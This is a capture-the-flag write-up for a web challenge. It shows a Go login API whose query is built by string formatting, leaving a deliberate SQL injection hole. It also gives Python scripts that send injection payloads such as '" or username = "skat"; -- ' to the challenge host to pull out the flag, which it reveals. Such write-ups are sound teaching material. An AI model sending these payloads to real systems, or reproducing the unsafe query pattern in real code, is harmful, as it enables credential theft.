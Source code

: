 # What have we found here

## Provided Files
`Files.zip`

## Writeup

Starting off I took a look at the provided files. <br/>
```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

Seems like this is the entry-point for the flag in form of a users password. <br/>
Knowing this I took a look at the service hosting the website and API endpoints. <br/>
```go
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/signal"
	"regexp"
	"syscall"

	_ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func startWeb() {
	fmt.Println("Starting very secure login panel (promise)")

	fs := http.FileServer(http.Dir("/home/user/web"))
	Mux.Handle("/", fs)

	Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
		if r.Method != http.MethodPost {
			w.WriteHeader(http.StatusMethodNotAllowed)
			return
		}

		var input Account

		decoder := json.NewDecoder(r.Body)
		decoder.Decode(&input)

		if input.Username == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Username"))
			return
		}
		if input.Password == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Password"))
			return
		}

		matched, err := regexp.MatchString(UsernameRegex, input.Username)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			return
		}

		if matched {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Username can only contain lowercase letters and numbers."))
			return
		}

		qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

		query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		defer query.Close()

		if !query.Next() {
			w.WriteHeader(http.StatusUnauthorized)
			w.Write([]byte("Invalid username / password combination!"))
			return
		}

		var result Account
		err = query.Scan(&result.Username, &result.Password)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		encoded, err := json.Marshal(result)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		w.Write(encoded)
	})

	http.ListenAndServe(":1337", Mux)
}

func main() {
	fmt.Println("Establishing connection to MySql")
	db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
	if err != nil {
		fmt.Println(err)
		return
	}
	DB = db

	defer DB.Close()

	startWeb()

	sigChan := make(chan os.Signal, 1)
	signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
	<-sigChan
}
```

The important thing to notice here is the SQL-injection vulnerability. <br/>
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

Knowing this I took a look at the behavior of the endpoint, for this purpose I coded this small python script. <br/>
```py
import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "root",
    "password": 'IamAvEryC0olRootUsr'
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
```

I used the credentials I found in the sql init file. <br/>
```sh
kali@kali python3 req.py
{"username":"root","password":"IamAvEryC0olRootUsr"}
```

Seems like we got our credentials back. <br/>
With this information I concluded that we need to use an SQL-injection to login as the user which has the flag as password. <br/>
```py
import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "skat",
    "password": '" or 1=1; -- '
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
```

It seems that this worked but didn't get us the flag. <br/>
```sh
kali@kali python3 req.py
{"username":"root","password":"IamAvEryC0olRootUsr"}
```

Getting the credentials from user `root` back I concluded that if we use `" or 1=1; -- ` we retrieve all credentials stored and it only returns either the first or last of those credentials which in our case is user `root`. <br/>
Knowing this I changed the SQL-injection a bit. <br/>
```py
import requests, json

url = "https://whats-my-password-web.chal.irisc.tf/api/login"

data = {
    "username": "coded",
    "password": '" or username = "skat"; -- '
}

headers = {
    "Content-Type": "application/json"
}

response = requests.post(url, data=json.dumps(data), headers=headers)

print(response.text)
```

Using this I returned only user `skat` which obtains the flag and concludes this writeup. <br/>
```sh
kali@kali python3 req.py
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```













